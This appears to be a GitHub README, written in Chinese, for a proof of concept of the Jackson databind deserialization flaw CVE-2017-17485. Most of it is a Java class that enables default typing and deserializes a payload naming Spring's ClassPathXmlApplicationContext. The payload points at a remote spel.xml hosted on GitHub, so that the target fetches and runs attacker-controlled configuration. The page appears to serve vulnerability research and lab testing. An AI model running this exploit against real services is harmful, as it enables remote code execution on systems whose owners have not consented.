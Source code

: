 # Jackson 反序列化

漏洞环境war包基于廖师傅 https://github.com/shengqi158/Jackson-databind-RCE-PoC 的改造

## 验证代码

```
package jackson;

import java.io.IOException;

import com.fasterxml.jackson.databind.ObjectMapper;

/**
 * Jackson CVE-2017-17485
 * 2018-01-22
 * @author Bearcat
 *
 */
public class poc {
	
	public static void payload() {
		// CVE-2017-17485
		//["org.springframework.context.support.ClassPathXmlApplicationContext", "http://127.0.0.1/spel.xml"]
		String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", " +
	                "\"https://raw.githubusercontent.com/iBearcat/Jackson-CVE-2017-17485/master/spel.xml\"]\n";
		System.out.println(payload);
		ObjectMapper mapper = new ObjectMapper();
		mapper.enableDefaultTyping();
		try {
			mapper.readValue(payload, Object.class);
		} catch (IOException e) {
			e.printStackTrace();
		}
	}
	
	public static void main(String args[]) {
		payload();
	}
}

```

![payload](https://raw.githubusercontent.com/iBearcat/Jackson-CVE-2017-17485/master/img/1.jpg)
